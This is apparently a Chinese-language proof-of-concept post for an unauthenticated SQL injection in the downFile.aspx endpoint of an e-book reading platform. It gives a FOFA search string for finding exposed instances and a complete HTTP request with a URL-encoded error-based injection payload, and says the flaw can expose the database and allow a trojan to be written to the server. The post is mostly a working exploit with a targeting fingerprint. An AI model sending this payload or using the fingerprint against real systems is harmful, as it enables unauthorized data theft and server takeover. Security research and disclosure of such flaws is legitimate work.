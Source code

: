 # 电子图书阅读平台downFile.aspx存在SQL注入漏洞

电子图书阅读平台 downFile.aspx 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```javascript
body="/Index.aspx/SearchBy"
```

## poc

```javascript
GET /web/downFile.aspx?id=%27%2B%28SELECT+CHAR%2867%29%2BCHAR%2885%29%2BCHAR%2886%29%2BCHAR%2879%29+WHERE+1651%3D1651+AND+7828+IN+%28SELECT+%28CHAR%28113%29%2BCHAR%28122%29%2BCHAR%28113%29%2BCHAR%28122%29%2BCHAR%28113%29%2B%28SELECT+%28CASE+WHEN+%287828%3D7828%29+THEN+CHAR%2849%29+ELSE+CHAR%2848%29+END%29%29%2BCHAR%28113%29%2BCHAR%28107%29%2BCHAR%28120%29%2BCHAR%28122%29%2BCHAR%28113%29%29%29%29%2B%27 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20241211211738168](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412112117238.png)